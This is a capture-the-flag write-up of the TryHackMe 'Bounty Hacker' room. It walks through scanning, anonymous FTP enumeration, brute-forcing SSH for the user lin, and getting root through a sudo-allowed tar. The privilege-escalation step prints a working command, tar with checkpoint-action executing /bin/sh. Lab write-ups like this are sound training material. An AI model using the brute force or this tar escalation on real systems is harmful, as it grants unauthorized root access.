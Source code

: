 ```yaml
---
slug: bounty-hacker
title: THM Bounty Hacker
description: Tryhackme Bounty Hacker writeup
authors: ["shivam"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg
tags: ["hydra", "FTP", "tar"]
---
```


Hello everyone,

Today we are going to solve Bounty hacker room from tryhackme. we will learn about hydra,FTP enumration and how to get root shell with tar.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)

<!--truncate-->

--> default page

![](Attachments/Pastedimage20210702101906.png)

---

## Nmap results

```bash
PORT STATE SERVICE VERSION
-->21/tcp open ftp vsftpd 3.0.3
| ftp-anon: `Anonymous FTP login allowed` (FTP code 230)
| -rw-rw-r-- 1 ftp ftp 418 Jun 07 2020 locks.txt
|_-rw-rw-r-- 1 ftp ftp 68 Jun 07 2020 task.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.9.3.179
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|\_End of status
-->22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 0)
| ssh-hostkey:
| 2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| 256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_ 256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
-->80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|\_http-server-header: Apache/2.4.18 (Ubuntu)
|\_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## gobuster results

```bash
[10:21:10] 301 - 315B - /images -> http://10.10.221.156/images/ > [10:21:10] 200 - 969B - /index.html
[10:21:23] 403 - 278B - /server-status
```

---

## FTP

--> so Let's try to login as ftp because anonymous login is allowed.
--> and we got 2 files `task.txt and locks.txt` so Let's try to read that file and Let's see what we get !

![](Attachments/Pastedimage20210702102957.png)

--> i got this in locks.txt

![](Attachments/Pastedimage20210702103122.png)

--> i think it's some type of wordlist so Let's read another file

> 1.) Protect Vicious.
> 2.) Plan for Red Eye pickup on the moon.
> -lin

---

## brute force

--> I tried to do brute force with user lin and i found the password

![](Attachments/Pastedimage20210702103651.png)

==> Let's try to login with SSH

--> and i got user.txt in `/Desktop`

![](Attachments/Pastedimage20210702103845.png)

--> So Let's try to escalate our privileges !

---

## Privesc

--> i done `sudo -l` and found that we can run `/bin/tar` as a root

![](Attachments/Pastedimage20210702104209.png)

--> and i got root with this command

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![](Attachments/Pastedimage20210702104549.png)
